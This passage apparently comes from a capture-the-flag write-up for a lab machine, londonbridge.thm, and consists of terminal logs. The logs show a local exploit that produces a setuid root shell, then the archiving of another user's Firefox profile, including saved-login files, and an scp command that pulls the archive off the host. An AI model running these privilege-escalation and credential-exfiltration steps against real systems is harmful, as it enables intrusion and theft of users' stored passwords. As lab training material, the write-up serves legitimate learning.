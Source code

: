 ```bash
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Launching dbus service...
Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
[+] Success:
-rwsrwxr-x 1 root root 8392 Oct  2 00:08 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@london:/tmp/exp# whoami
root
root@london:/tmp/exp# pwd
/tmp/exp
root@london:/tmp/exp# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
root@london:/tmp/exp# 
```

> **Compress Firefox Files**
> 

```bash
root@london:/tmp/exp# ls -lsa /home/charles/.mozilla/firefox
total 12
4 drw-------  3 charles charles 4096 Mar 16  2024 .
4 drw-------  3 charles charles 4096 Mar 16  2024 ..
4 drw------- 16 charles beth    4096 Mar 16  2024 8k3bf3zp.charles
root@london:/tmp/exp# cd /home/charles/.mozilla/
root@london:/home/charles/.mozilla# tar -cvzf /tmp/firefox.tar.gz firefox
firefox/
firefox/8k3bf3zp.charles/
firefox/8k3bf3zp.charles/storage-sync-v2.sqlite
firefox/8k3bf3zp.charles/safebrowsing/
firefox/8k3bf3zp.charles/safebrowsing/google4/
firefox/8k3bf3zp.charles/extensions.json
firefox/8k3bf3zp.charles/extension-store/
firefox/8k3bf3zp.charles/sessionstore-backups/
firefox/8k3bf3zp.charles/sessionstore-backups/previous.jsonlz4
firefox/8k3bf3zp.charles/sessionstore-backups/upgrade.jsonlz4-20240115170312
firefox/8k3bf3zp.charles/logins-backup.json
firefox/8k3bf3zp.charles/containers.json

[REDACTED] - MORE

root@london:/home/charles/.mozilla#
```

> **SSH File Transfer Phase**
> 

`scp -o MACs=hmac-sha2-256 -i id_rsa beth@londonbridge.thm:/tmp/firefox.tar.gz .`
